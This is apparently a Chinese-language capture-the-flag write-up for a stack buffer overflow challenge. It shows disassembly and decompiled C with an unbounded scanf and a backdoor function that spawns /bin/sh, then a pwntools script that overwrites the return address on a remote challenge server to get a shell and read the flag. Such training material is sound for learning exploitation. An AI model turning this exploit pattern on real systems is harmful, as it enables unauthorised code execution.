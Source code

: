 ```asm
.text:00000000004006DC                 call    _printf
.text:00000000004006E1                 lea     rax, [rbp+var_40]
.text:00000000004006E5                 mov     rsi, rax
.text:00000000004006E8                 mov     edi, offset aS  ; "%s"
.text:00000000004006ED                 mov     eax, 0
.text:00000000004006F2                 call    _scanf
.text:00000000004006F7                 lea     rax, [rbp+var_40]
.text:00000000004006FB                 mov     rsi, rax
.text:00000000004006FE                 mov     edi, offset aHelloS ; "Hello %s!"
.text:0000000000400703                 mov     eax, 0
.text:0000000000400708                 call    _printf
.text:000000000040070D                 mov     eax, 0
.text:0000000000400712                 leave
.text:0000000000400713                 retn
.text:0000000000400713 ; } // starts at 400687
.text:0000000000400713 main            endp
.text:0000000000400713
.text:0000000000400713 ; --------------------------------------------
.text:0000000000400714                 align 20h
```

其中两个关键函数的反编译如下：

* 后门函数

```c
int backdoor(void)
{
  return system("/bin/sh");
}
```

* 主函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+10h] [rbp-40h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  printf("Tell me your name: ", 0LL, argv);
  scanf("%s", &v4);
  printf("Hello %s!", &v4);
  return 0;
}
```

这里发现`scanf("%s", &v4)`语句没有限制输入的长度，可以利用其进行溢出

于是构造 playload 如下：

```python
# nc sec.eqqie.cn 10003
from pwn import *

p = remote('sec.eqqie.cn',10003)
p.recv()

sys_addr = p64(0x400676)
payload = b'A'*(0x40+8) + sys_addr
p.sendline(payload)

p.recv()

p.sendline('ls')
p.sendline('cat flag.txt')
p.interactive()
```